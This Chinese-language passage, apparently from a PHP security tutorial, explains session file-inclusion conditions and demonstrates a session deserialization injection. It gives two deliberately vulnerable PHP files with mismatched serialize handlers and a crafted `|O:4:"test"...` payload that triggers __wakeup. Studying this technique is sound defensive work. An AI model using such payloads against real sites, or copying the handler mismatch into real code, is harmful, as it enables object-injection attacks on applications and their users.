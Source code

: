 利用条件：

```
1. 存在文件包含漏洞

2. 知道session文件存放路径，可以尝试默认路径

3. 具有读取和写入session文件的权限
```

###  反序列化

####  $_SESSION变量直接可控

php引擎的存储格式是`键名|serialized_string`，而php_serialize引擎的存储格式是`serialized_string`。如果程序使用两个引擎来分别处理的话就会出现问题

实验：

1.php:

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['z3eyond'] = $_GET['a'];
var_dump($_SESSION);
```

2.php

```php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class test{
    public $name;
    function __wakeup(){
        echo $this->name;
    }
}

```

首先访问1.php，传入参数`a=|O:4:"test":1:{s:4:"name";s:7:"z3eyond";}`再访问2.php，注意不要忘记`|`

会发现2.php出现了`z3eyond`

这是因为`1.php`是使用`php_serialize`引擎处理，因此只会把`'|'`当做一个正常的字符。然后访问`2.php`，由于用的是`php`引擎，因此遇到`'|'`时会将之看做键名与值的分割符，从而造成了歧义，导致其在解析session文件时直接对`'|'`后的值进行反序列化处理。

为什么1.php可以触发2.php的__wakeup()?

```
我的理解是，1.php中session_start()开始会话，写入了session文件，然后访问2.php，session_start(),读取了session文件。而由于引擎不一样，从而引发了__wakeup的不同。
```

关于session_start():
